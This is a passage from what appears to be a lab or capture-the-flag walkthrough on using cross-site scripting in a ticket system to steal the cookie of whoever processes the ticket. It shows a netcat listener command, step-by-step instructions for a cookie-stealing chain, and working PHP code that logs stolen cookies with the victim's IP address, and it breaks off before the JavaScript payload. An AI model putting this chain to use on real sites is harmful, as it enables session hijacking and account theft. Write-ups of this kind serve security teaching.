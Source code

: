 {% tab title="2. Listener" %}
```bash
nc -lvnp 1337
```
{% endtab %}
{% endtabs %}

<div align="center">

<figure><img src="../../../../.gitbook/assets/xss_test.png" alt="" width="554"><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

</div>

Next, we will **steal the cookie** of the person who will process our ticket (Figure 3).

1. Create a script (`index.php`) that will expand the stolen cookie.
2. Create another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Pass a payload that will request `script.js`.

{% tabs %}
{% tab title="index.php" %}
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```
{% endtab %}
